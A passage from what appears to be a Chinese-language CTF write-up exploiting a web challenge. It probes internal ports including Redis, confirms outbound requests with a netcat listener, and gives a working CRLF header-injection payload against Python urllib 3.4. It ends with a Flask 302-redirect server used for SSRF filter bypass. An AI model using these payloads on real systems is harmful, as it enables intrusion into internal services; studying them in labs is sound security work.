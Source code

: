 可以看到服务器还开了8000端口和6379端口，6379端口应该是redis。这里我们输入0:8000看看会返回什么：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <form action="/" method="get"> <input type="text" name="url" id="url" > <input type="submit" value="submit"> </form> </body> </html>
```

看起来是一个GET方式的表单，这里我们传递表单的参数看一下`0:5000?target=http://baidu.com`：

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```

我们看到返回了内容，在用云服务器试一下`nc -l -p 12345`，输入参数`0:5000?target=http://公网ip:12345`:

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>timed out</p> </body> </html>
```

服务器请求timed out，再看服务器：
```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140:12345
```

可以看出服务端使用的是urllib、python版本3.4，可能存在http头部注入。简单的poc："0:5000?target=http://123.206.60.140%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345"，看到服务器端：

```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140
X-injected: header
x-leftover: :12345
```

我们成功的进行了http头部注入，可以拿来操纵redis。

那我们怎么通过0:5000打redis呢？看来要通过另一个ssrf漏洞。这里同样的对进制转换进行了过滤，但是我们可以通过302跳转构造ssrf。

同样的，在我们的云服务器上，通过flask进行简单的测试：

```python
from flask import Flask
from flask import redirect
from flask import request
from flask import render_template

app = Flask(__name__)
app.debug = True

@app.route('/')
def test():
    return redirect('http://127.0.0.1:80/', 302)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
